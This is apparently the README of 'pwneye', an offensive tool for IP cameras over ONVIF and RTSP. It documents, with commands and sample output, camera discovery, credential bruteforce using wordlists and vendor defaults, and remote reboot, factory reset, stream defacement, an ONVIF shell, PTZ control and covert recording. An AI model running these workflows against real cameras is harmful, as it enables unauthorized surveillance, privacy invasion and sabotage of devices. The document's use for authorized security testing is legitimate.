


<p align="center">
  
</p>

<p align="center">
  
  
  
  
  <a href="LICENSE.md"></a>
</p>

`pwneye` is a focused and portable offensive security tool for working with IP cameras that expose **ONVIF** and **RTSP** services, aiming to give security researchers and hackers an easy way to handle discovery, authentication testing, metadata collection, stream validation, recording, and follow-up actions from a single CLI workflow.

Some of the capabilities currently supported include:

- Local network **ONVIF discovery** via WS-Discovery
- ONVIF authentication and **multithreaded bruteforce** with single credentials or username/password files
- ONVIF post-auth enumeration of device information, configured users, network configuration, media profiles, and RTSP stream URIs
- Camera **reboot**, factory **reset**, and **interactive shell access** via ONVIF
- ONVIF PTZ movement from both the CLI and the dedicated viewer
- **Stream deface and restore** support via ONVIF
- RTSP port detection and **banner-based vendor identification**
- Vendor-aware RTSP bruteforce with **450+ built-in vendor credential / connection-string profiles**, plus manual vendor and manual connection string support
- Multithreaded RTSP bruteforce with live progress output
- **RTSP multi-channel handling** with automatic detection, guided enumeration, and interactive channel selection
- Dedicated **live preview client** with zoom and fast channel switching for DVR/NVR-style targets
- RTSP stream validation, live preview via `ffplay`, recording via `ffmpeg`, and snapshot capture
- Per-target caching of successful ONVIF and RTSP findings under `~/.pwneye`

## Demo

https://github.com/user-attachments/assets/6913632b-326d-455e-aa0d-be6bf9b3e66c

## Table of Contents

- [Installation and Updates](#installation-and-updates)
  - [pipx](#pipx)
  - [Python](#python)
  - [External Dependencies](#external-dependencies)
- [Getting Started](#getting-started)
- [ONVIF](#onvif)
  - [What ONVIF Gives You](#what-onvif-gives-you)
  - [Enumerating the Local Network](#enumerating-the-local-network)
  - [Bruteforcing Credentials](#bruteforcing-credentials)
  - [Rebooting a Camera](#rebooting-a-camera)
  - [Resetting a Camera](#resetting-a-camera)
  - [Moving the Camera](#moving-the-camera)
  - [Defacing a Stream](#defacing-a-stream)
  - [Undefacing a Stream](#undefacing-a-stream)
  - [Getting a shell](#getting-a-shell)
- [RTSP](#rtsp)
  - [What RTSP Gives You](#what-rtsp-gives-you)
  - [Identifying the Vendor](#identifying-the-vendor)
  - [RTSP Bruteforce](#rtsp-bruteforce)
  - [Multi-Channel Streams](#multi-channel-streams)
  - [Streaming, Recording, and Snapshots](#streaming-recording-and-snapshots)
- [Tips & Tricks](#tips--tricks)
- [Acknowledgements](#acknowledgements)
- [Safety](#safety)
- [License](#license)

## Installation and Updates

### pipx

Install `pwneye` as a system-wide CLI command from GitHub:

```bash
pipx install git+https://github.com/Hackerest/pwneye.git
pwneye --help
```

Uninstall it:

```bash
pipx uninstall pwneye
```

Upgrade it later from the same GitHub source:

```bash
pipx upgrade pwneye
```

### Python

```bash
git clone https://github.com/Hackerest/pwneye
cd pwneye
python3 -m venv .venv
source .venv/bin/activate
pip install -r requirements.txt
python3 pwneye.py --help
```

Upgrade it later from the same GitHub source:

```bash
cd pwneye
git pull
source .venv/bin/activate
pip install -r requirements.txt
```

### External Dependencies

The following tools are expected in `PATH` depending on the mode you use:
- `ffplay`
- `ffprobe`
- `ffmpeg` for recording

| Platform | Install command |
| --- | --- |
| macOS (Homebrew) | `brew install ffmpeg` |
| Ubuntu / Debian | `sudo apt update && sudo apt install ffmpeg` |
| Fedora | `sudo dnf install ffmpeg ffmpeg-free` |
| Arch Linux | `sudo pacman -S ffmpeg` |
| openSUSE | `sudo zypper install ffmpeg` |

## Getting Started

Use these as the fastest entry points into the tool. The goal here is not to document every flag, but to show the most useful ways to start working with a camera depending on what you already know.

Start from the default full workflow when you have a single target and want `pwneye` to do the protocol selection work for you:

```bash
pwneye -t 192.168.1.135
```

Start from ONVIF discovery when you are on the same local network and want to identify devices, vendors, and stream clues before touching RTSP:

```bash
pwneye --discover
```

Start directly from RTSP when ONVIF is irrelevant, unavailable, or you already know what you want to test:

```bash
pwneye -t 192.168.1.135 --skip-onvif
```

Start from known or suspected credentials when you want to reduce noise and validate access quickly:

```bash
pwneye -t 192.168.1.135 --username admin --password admin
pwneye -t 192.168.1.135 --username admin --password ~/wordlists/passwords.txt
pwneye -t 192.168.1.135 --username ~/wordlists/users.txt --password admin123
```

Start from a known path or a path template when you already have a stream clue and want tight control over RTSP requests:

```bash
pwneye -t 192.168.1.135 --skip-onvif -cn "/live/ch00_0"
pwneye -t 192.168.1.135 --skip-onvif -cn '/cam/realmonitor?channel={channel}&subtype=0'
```

Start from evidence collection once a working stream is found:

```bash
pwneye -t 192.168.1.135 --snapshot
pwneye -t 192.168.1.135 --record
```

Useful flags to keep in mind:
- `--vendor VENDOR`: reduce RTSP requests when the device family is already known
- `-cn, --connection-string PATH`: try a known RTSP path or a file containing candidate paths
- `--multi-channel`: prefer channel-based RTSP paths when you suspect a DVR/NVR-style target
- `--threads N`: control concurrency for ONVIF and RTSP bruteforce
- `--skip-onvif` / `--skip-rtsp`: focus on one protocol only
- `--no-cache`: do not read from or write to cache
- `--fresh`: ignore cache reads but still write new findings

## ONVIF

ONVIF is the management and control side of the camera world. In practice, it is useful for discovery, authentication, metadata extraction, media profile enumeration, stream URI retrieval, and device actions such as rebooting.

In `pwneye`, ONVIF is usually the protocol that gives the richest post-auth context, the cleanest path to understanding what a camera exposes, and, when the authenticated account has enough privileges, access to real administrative actions on the device.

### What ONVIF Gives You

When a camera exposes ONVIF, `pwneye` can use it to:

- discover cameras on the local network via WS-Discovery
- test ONVIF authentication using fixed credentials or files
- extract manufacturer and device metadata
- retrieve RTSP stream URIs exposed by the device
- enumerate useful post-auth context before touching RTSP more aggressively
- request an authenticated reboot with `--reboot`
- request an authenticated factory reset with `--reset`
- move a PTZ-capable camera from the CLI or from the dedicated viewer
- open an authenticated interactive shell with `--shell`
- deface the stream via ONVIF with `--deface`
- restore the last saved deface profile with `--undeface`

### Enumerating the Local Network

Use WS-Discovery to identify ONVIF-capable devices on the local network:

```
pwneye --discover

[info] Starting continuous ONVIF discovery on the target network
[warning] No network interface was specified. Using en0 (subnet 192.168.1.0/24) for discovery
[success] Discovered 1 new ONVIF device(s) on the target network
[info] Saved ONVIF discovery data to cache for 192.168.1.135 (Tenda)

   Host: 192.168.1.135
   Port: 80
   Protocol: http
   Types: Device
   XAddrs: http://192.168.1.135:80/onvif/device_service
   Manufacturer: Tenda
   Name: CP3Pro
   Hardware: CP3Pro
   MAC: XX:XX:XX:XX:XX:XX
   Country: China
   Profiles: Streaming
   Capabilities: NetworkVideoTransmitter, ptz, video_encoder, audio_encoder

[success] ONVIF discovery stopped by user after identifying 1 device(s)
```

The discovery loop keeps probing every few seconds, prints only newly discovered devices, and can be stopped with `CTRL-C`.

You can also force discovery through a specific network interface:

```bash
pwneye --discover en0
pwneye --discover eth0
```

When no interface is specified, `pwneye` automatically chooses the default outbound interface and tells you which target subnet it is using for WS-Discovery.

### Bruteforcing Credentials

Run ONVIF-only bruteforce with a fixed username and a password file:

```
pwneye -t 192.168.1.135 -ou admin -op ~/wordlists/rockyou-short.txt --skip-rtsp --threads 5

[info] Checking if the target (192.168.1.135) is reachable...
[info] The target seems to be reachable
[info] Trying ONVIF authentication using user-provided credentials...
[success] 192.168.1.135 supports ONVIF on port 80
[warning] Unable to authenticate via ONVIF using provided credentials
[>] Do you want to extend the test to common ONVIF credentials? [(y)es/(n)o] (default: y): 
[info] No explicit ONVIF credentials specified, trying common ONVIF credentials...
[info] Trying ONVIF authentication using common username(s) and password(s)...
[success] 192.168.1.135 supports ONVIF on port 80
⠼ Trying ONVIF on 192.168.1.135:80 with camera:12345
```

Useful options:
- `--skip-onvif`: skip ONVIF detection and enumeration
- `-oP, --onvif-port PORT`: test a specific ONVIF port
- `-ou, --onvif-username USER`: ONVIF username or file with one username per line
- `-op, --onvif-password PASS`: ONVIF password or file with one password per line

If `-ou` and `-op` are not specified, `pwneye` automatically falls back to its built-in common ONVIF usernames and passwords.

`pwneye` caches successful ONVIF credentials per target under `~/.pwneye/cache` and reuses them on future runs unless you use `--fresh` or `--no-cache`.

### Rebooting a Camera

If ONVIF authentication succeeds, you can request a reboot directly:

```
pwneye -t 192.168.1.135 --reboot

[info] Found cached ONVIF/RTSP credential(s) for 192.168.1.135
[info] Checking if the target (192.168.1.135) is reachable...
[info] The target seems to be reachable
[info] Trying cached ONVIF credentials for the target...
[success] 192.168.1.135 supports ONVIF on port 80
[success] ONVIF connection established using the following configuration:

   Port: 80
   ONVIF Username: admin
   ONVIF Password: Hackerest1

[warning] Requesting ONVIF system reboot...
[info] ONVIF reboot request sent
[info] Checking if the camera is still reachable...
[success] The device has been rebooted!
```

When `--reboot` is used, RTSP probing is skipped.

### Resetting a Camera

If ONVIF authentication succeeds, you can also request a factory reset directly:

```text
pwneye -t 192.168.1.135 --reset

[info] Found cached ONVIF/RTSP credential(s) for 192.168.1.135
[info] Checking if the target (192.168.1.135) is reachable...
[info] The target seems to be reachable
[info] Trying cached ONVIF credentials for the target...
[success] 192.168.1.135 supports ONVIF on port 80
[success] ONVIF connection established using the following configuration:

   Port: 80
   ONVIF Username: admin
   ONVIF Password: Hackerest1

[>] Do you really want to factory-reset the camera via ONVIF? [(y)es/(n)o] (default: n):
[warning] Requesting ONVIF factory reset...
[info] ONVIF factory reset request sent
[info] Checking if the camera is still reachable...
[warning] The ONVIF factory reset request was sent, but the target still appears to be reachable. Please verify manually that the reset was completed.
```

**Warning**: this operation may be irreversible and can wipe the current device configuration, credentials, and network settings. Use `--reset` only when you fully understand the impact and are explicitly authorized to perform it.

As with `--reboot`, when `--reset` is used, RTSP probing is skipped.

### Moving the Camera

If the target exposes PTZ controls through ONVIF, `pwneye` can move the camera both from the terminal and from the dedicated live viewer.

From the CLI, use `--move` with `direction,duration`. The flag can be repeated, and the requested moves are executed in sequence while RTSP probing is skipped:

```bash
pwneye -t 192.168.1.135 --move right,2
pwneye -t 192.168.1.135 --move right,2 --move up,1 --move down,3
pwneye -t 192.168.1.135 --move r,2 --move u,1 --move d,3
```

Accepted directions are:

- `left` or `l`
- `right` or `r`
- `up` or `u`
- `down` or `d`

Example:

```text
pwneye -t 192.168.1.135 --move r,2 --move u,1

...
[info] Trying cached ONVIF credentials for the target...
...
[success] ONVIF connection established using the following configuration:
...

[info] Requesting ONVIF PTZ move to right for 2.00 second(s)...
[info] The ONVIF move command was accepted
[info] Requesting ONVIF PTZ move to up for 1.00 second(s)...
[info] The ONVIF move command was accepted
[success] The camera has been moved!
```

Inside the dedicated viewer, if PTZ is supported, the focused view also lets you move the camera interactively with `W`, `A`, `S`, and `D`. This is useful when you already have a working stream and want direct visual feedback while adjusting the device.

### Defacing a Stream

If ONVIF authentication succeeds, `pwneye` can also try to deface the stream directly:

```bash
pwneye -t 192.168.1.135 --deface "THIS CAMERA IS EXPOSED"
```

What `--deface` does, in short:

- it first checks whether the target supports stream darkening through ONVIF Imaging
- it also checks whether the target exposes reusable ONVIF text layers
- if both are available, `pwneye` performs a full deface
- if only one side is available, `pwneye` warns the user and offers a partial deface instead
- before changing anything, `pwneye` saves a restore profile for the target under `~/.pwneye/cache`

The implementation is intentionally conservative and vendor-friendly:

- for the darkening step, `pwneye` lowers supported imaging controls such as brightness, contrast, and saturation instead of relying on vendor-specific tricks
- for the text step, `pwneye` reuses existing writable ONVIF text layers rather than creating or deleting new OSD entries
- this makes the feature more compatible across different camera families, even if the final visual result still depends on the firmware

Example:

```text
pwneye -t 192.168.1.135 --deface "THIS CAMERA IS EXPOSED"

[info] Found cached ONVIF/RTSP credential(s) for 192.168.1.135
[info] Checking if the target (192.168.1.135) is reachable...
[info] The target seems to be reachable
[info] Trying cached ONVIF credentials for the target...
[success] 192.168.1.135 supports ONVIF on port 80
[success] ONVIF connection established using the following configuration:

   Port: 80
   ONVIF Username: admin
   ONVIF Password: Hackerest1

[info] Inspecting ONVIF deface capabilities...
[info] The target supports ONVIF deface
[>] Do you want to proceed with the deface attempt? [(y)es/(n)o] (default: n): y
[warning] Trying to deface the target stream with THIS CAMERA IS EXPOSED
[info] A backup profile is being created for future restorations...
[success] Backup profile saved successfully to /Users/user/.pwneye/cache/192.168.1.135.yaml
[info] Trying to darken the stream...
[success] The stream was darkened successfully
[info] Trying to replace the current on-stream text with THIS CAMERA IS EXPOSED
[info] Verifying the text update...
[success] The target stream has been defaced!
[info] To restore the previous configuration, run the tool again with --undeface
```

Sample result:



### Undefacing a Stream

If a previous `--deface` run saved a restore profile for the target, `pwneye` can use it to restore the original ONVIF state:

```bash
pwneye -t 192.168.1.135 --undeface
```

What `--undeface` does, in short:

- it looks for a previously saved deface restore profile in the target cache entry
- if no profile exists, it stops immediately with an error
- if a profile exists, it tries to restore the original Imaging settings and the original writable text layers
- as with `--deface`, the final result may be full or partial depending on what the target allows through ONVIF

The restore profile is not deleted after a successful `--undeface`. It stays in cache until a future `--deface` overwrites it with a newer profile.

Example:

```text
pwneye -t 192.168.1.135 --undeface

[info] Found cached ONVIF/RTSP credential(s) for 192.168.1.135
[info] Checking if the target (192.168.1.135) is reachable...
[info] The target seems to be reachable
[info] Trying cached ONVIF credentials for the target...
[success] 192.168.1.135 supports ONVIF on port 80
[success] ONVIF connection established using the following configuration:

   Port: 80
   ONVIF Username: admin
   ONVIF Password: Hackerest1

[info] Looking for a saved deface profile for this target...
[info] A saved deface profile was found at /Users/user/.pwneye/cache/192.168.1.135.yaml
[>] Do you want to proceed with the undeface attempt? [(y)es/(n)o] (default: n): y
[warning] Trying to restore the target stream...
[info] Trying to restore the original stream brightness profile...
[success] The original stream brightness profile was restored successfully
[info] Trying to restore the original on-stream text...
[success] The original on-stream text was restored successfully
[success] The target stream has been restored!
```

### Getting a shell

If ONVIF authentication succeeds, `pwneye` can also drop you into an interactive ONVIF shell directly.
This is useful when you want to inspect services, call methods manually, explore capabilities, or test target-specific operations without leaving the current workflow.

Example:

```text
pwneye -t 192.168.1.135 --shell

[info] Found cached ONVIF/RTSP credential(s) for 192.168.1.135
[info] Checking if the target (192.168.1.135) is reachable...
[info] The target seems to be reachable
[info] Trying cached ONVIF credentials for the target...
[success] 192.168.1.135 supports ONVIF on port 80
[success] ONVIF connection established using the following configuration:

   Port: 80
   ONVIF Username: admin
   ONVIF Password: Hackerest1

[info] Opening the interactive ONVIF shell...

This feature is powered by https://github.com/nirsimetri/onvif-python (leave it a ⭐!)
Use TAB for completion and help for commands.

admin@192.168.1.135:80 > ls
analytics     events        media2        pullpoint     ruleengine    capabilities  help          store         cls           debug         pwd           type
deviceio      imaging       notification  recording     search        caps          exit          rm            clear         ls            shortcuts
devicemgmt    media         ptz           replay        subscription  services      quit          show          info          cd            desc
```

## RTSP

RTSP is the streaming side of the camera world. It is the protocol that usually gives you the live video path, but it is also the most fragmented one: vendors use different paths, channel conventions, authentication quirks, and banner formats.

In `pwneye`, RTSP handling is built around port discovery, banner grabbing, vendor-aware path selection, bruteforce orchestration, stream validation, preview, and recording.

### What RTSP Gives You

RTSP is the part of the workflow that confirms whether you can really access a stream. In `pwneye`, that means:

- detecting RTSP on common or user-specified ports
- grabbing banners and trying to identify the vendor automatically
- bruteforcing credentials against vendor-aware or user-provided paths
- validating working streams before opening them
- recording streams or capturing snapshots for evidence
- enumerating multiple channels when the target behaves like a DVR or NVR

### Identifying the Vendor

`pwneye` will try to identify the RTSP vendor automatically through RTSP banner grabbing before falling back to broader path enumeration.

If automatic banner-based identification fails and you already know the vendor from prior analysis, you can pass it directly to reduce the number of requests significantly:

```bash
pwneye -t 192.168.1.135 --vendor tenda
```

You can also fetch only the RTSP banner and exit:

```
pwneye -t 192.168.1.135 --skip-onvif --banner

...
[info] RTSP service detected on port(s): 554
[success] RTSP banner on port 554: Hipcam RealServer/V1.0
```

Useful options:
- `--skip-rtsp`: skip RTSP detection and bruteforce
- `-P, --rtsp-port PORT`: test a specific RTSP port
- `--vendor VENDOR`: force a vendor from the RTSP database
- `--list-vendors`: print the vendors supported by the RTSP knowledge base and exit
- `--protocol tcp|udp`: choose RTSP transport, default is `tcp`
- `--timeout SECONDS`: RTSP timeout, default is `10`

### RTSP Bruteforce

Bruteforce RTSP with fixed credentials:

```bash
pwneye -t 192.168.1.135 --username admin --password admin
```

Rotate only usernames with a fixed password:

```bash
pwneye -t 192.168.1.135 --password 'SuperSecretPass' --vendor hikvision --threads 10
```

Try a single user-provided RTSP connection string:

```bash
pwneye -t 192.168.1.135 --skip-onvif -cn "/11"
pwneye -t 192.168.1.135 --skip-onvif -cn "/cam/realmonitor?channel=1&subtype=0"
```

Load candidate connection strings from file:

```bash
pwneye -t 192.168.1.135 --skip-onvif -cn paths.txt
```

Combine a manual path with fixed credentials:

```bash
pwneye -t 192.168.1.135 --skip-onvif -u admin -p admin -cn "/live/ch00_0"
```

Prefer multi-channel paths when the target is likely a DVR/NVR:

```bash
pwneye -t 192.168.1.135 --skip-onvif --multi-channel
```

Useful options:
- `-u, --username USER`: RTSP username or file with one username per line
- `-p, --password PASS`: RTSP password or file with one password per line
- `-cn, --connection-string PATH`: RTSP connection string or file with one connection string per line
- `--multi-channel`: prefer RTSP multi-channel connection strings when available
- `--max-channels N`: stop channel enumeration after finding `N` channels (default: unlimited)
- `--threads N`: number of concurrent threads used by the bruteforce engine

If `-u` and `-p` are not specified, `pwneye` automatically falls back to its built-in common RTSP usernames and passwords.

`pwneye` caches successful RTSP credentials and validated stream metadata per target under `~/.pwneye/cache`.

Cache behavior:
- default: reuse cached valid findings before running a fresh bruteforce
- `--fresh`: ignore cached results but still update cache with new findings
- `--no-cache`: disable both cache reads and cache writes

### Multi-Channel Streams

Some cameras, DVRs, and NVRs expose multiple logical RTSP channels instead of a single static path. Typical examples include templates such as:

```text
rtsp://IP:554/?chID=1&streamType=main&linkType=tcp
rtsp://IP:554/cam/realmonitor?channel=1&subtype=0
```

`pwneye` can detect this automatically while probing RTSP, including through vendor-based RTSP knowledge, but you can also steer the process explicitly:

- `--multi-channel` tells `pwneye` to prefer channel-based RTSP paths from the knowledge base
- `--connection-string` lets you provide your own channel template, including placeholders such as `{channel}`
- `--max-channels N` caps enumeration once `N` channels have been found, which is handy for DVRs/NVRs that report a valid stream across a very wide channel range (otherwise enumeration keeps probing until the device stops responding or you press `CTRL-C`)
- the same template logic also works when the connection strings come from file
- once multiple channels are found, `pwneye` can open either a single feed or a dedicated multi-channel viewer in one window

Examples:

```bash
pwneye -t 192.168.1.135 --skip-onvif --multi-channel
pwneye -t 192.168.1.135 --skip-onvif -cn '/cam/realmonitor?channel={channel}&subtype=0'
pwneye -t 192.168.1.135 --skip-onvif -cn '/cam/realmonitor?channel={channel}&subtype=0' --max-channels 4
pwneye -t 192.168.1.135 --skip-onvif -cn channel_paths.txt
```

Sample output:

```text
[info] Enumerating RTSP channels using the validated connection template...
[info] Press CTRL-C to stop channel enumeration and choose from the channels found
[success] RTSP channel 2 is valid
[success] RTSP channel 3 is valid
[warning] RTSP channel enumeration interrupted by user. Using the channels discovered so far

   [0] Open all discovered channels in a dedicated client
   [1] Channel 1: rtsp://192.168.1.135:554/cam/realmonitor?channel=1&subtype=0
   [2] Channel 2: rtsp://192.168.1.135:554/cam/realmonitor?channel=2&subtype=0
   [3] Channel 3: rtsp://192.168.1.135:554/cam/realmonitor?channel=3&subtype=0

[>] Select channel (CTRL-C to exit):
```

If you choose `Open all discovered channels`, `pwneye` launches a dedicated multi-channel client that keeps all discovered streams inside a single window. Each feed is shown in the mosaic as a live preview, and clicking a tile promotes that channel to a larger focused view with a simple `Back` action to return to the grid.

<p align="center">
  
</p>

By default, live RTSP preview uses the dedicated `pwneye` client. If you prefer the classic system-player workflow instead, you can add `--legacy` to open the validated stream with `ffplay`.

When the dedicated client is open, you can also trigger **Snapshot** and **Record** directly from the focused view without leaving the GUI. This is useful when you want to inspect a feed first and only then decide to save a still image or start recording evidence.

### Streaming, Recording, and Snapshots

Open a validated stream with live preview:

```bash
pwneye -t 192.168.1.135 --vendor tenda
```

Record a validated RTSP stream with preview:

```bash
pwneye -t 192.168.1.135 --record
pwneye -t 192.168.1.135 --record living-room.mp4
```

Capture a snapshot instead of a full recording:

```bash
pwneye -t 192.168.1.135 --snapshot
pwneye -t 192.168.1.135 --snapshot living-room.jpg
```

Record without opening the preview window:

```
pwneye -t 192.168.1.135 --record living-room.mp4 --no-video

...
[info] Recording RTSP stream to /Users/user/.pwneye/recordings/192.168.1.135/2026-04-14_20-25-03.mp4
[info] Press CTRL-C to stop the recording
[warning] Retrying MP4 finalization in compatibility mode (transcoding)...
[success] Recording saved to /Users/user/.pwneye/recordings/192.168.1.135/2026-04-14_20-25-03.mp4 (5.75 MB)
```

Recording behavior:
- `--record [OUTPUT.mp4]`: record the validated RTSP stream; if omitted, a timestamped file is created under `~/.pwneye/recordings`
- `--snapshot [OUTPUT.jpg]`: save a still frame from the validated RTSP stream; if omitted, a timestamped file is created under `~/.pwneye/snapshots`
- `--no-video`: skip live preview and decoding
- the dedicated viewer also exposes `Snapshot` and `Record` actions directly in the focused view
- default recordings are stored under `~/.pwneye/recordings/<target>/`
- default snapshots are stored under `~/.pwneye/snapshots/<target>/`

## Tips & Tricks

If `pwneye` were a video game, these are probably the tips you would see on the loading screen:

- **A strong web UI doesn't mean a secure camera:** A camera with a well-protected web interface is not necessarily well protected overall. It is common to find solid web lockout behavior while RTSP remains unauthenticated or accepts effectively unlimited attempts.
- **Use discovery when you can:** If `--discover` works on the local network, use it first. Vendor information, device metadata, and cached findings can make later RTSP work much quieter and more reliable.
- **ONVIF first can be the smarter move:** ONVIF and RTSP often share the same credentials. If ONVIF is exposed, it is usually smarter to bruteforce that side first with `--skip-rtsp` instead of hammering RTSP directly and making the stream unstable. When `pwneye` finds valid ONVIF credentials, it will try to reuse them on RTSP automatically.
- **Known vendors reduce noise:** If you already know the vendor, pass `--vendor` explicitly. It reduces requests and can help keep fragile targets stable.
- **Known paths beat blind guessing:** If you already know or suspect the path, use `--connection-string` instead of broad RTSP enumeration. It gives you tighter control over the request set and makes failures easier to interpret.
- **A recorder may expose more than one feed:** If a target looks like a DVR/NVR, try `--multi-channel` or a manual channel template before assuming it only exposes a single stream.
- **Reboot can be a recovery step:** If you have valid RTSP credentials but still cannot open the video, the stream may simply be unstable after repeated probing. If you also have ONVIF access, a blunt but often effective recovery step is `--reboot`.
- **A valid stream is not always a meaningful one:** Some devices will happily return a stream even for incorrect paths and incorrect channel IDs. Treat broad channel success as a hint until you confirm that the resulting feed is actually different.

## Acknowledgements

Special thanks to [@kaburagisec](https://github.com/kaburagisec) for [`onvif-python`](https://github.com/nirsimetri/onvif-python), the ONVIF library used by `pwneye`.
It made the ONVIF side of this project dramatically easier and more reliable.

Thanks to [Darix Deros](https://www.linkedin.com/in/knx/) for helping during testing and for sharing several useful suggestions that improved parts of the tool, including the ONVIF discovery workflow.

## Safety

Use `pwneye` only against assets you own or are explicitly authorized to assess.

This tool can enumerate services, test authentication, open streams, record video, interact with ONVIF administrative features, and, with sufficient privileges, reboot, reset, deface, or otherwise alter the behavior of a target device.

Even when your goal is only evidence collection, repeated RTSP probing can make fragile cameras unstable, and ONVIF actions can have immediate operational impact.

## License

This project is distributed under the GNU GPL3 License.
See `LICENSE.md`.
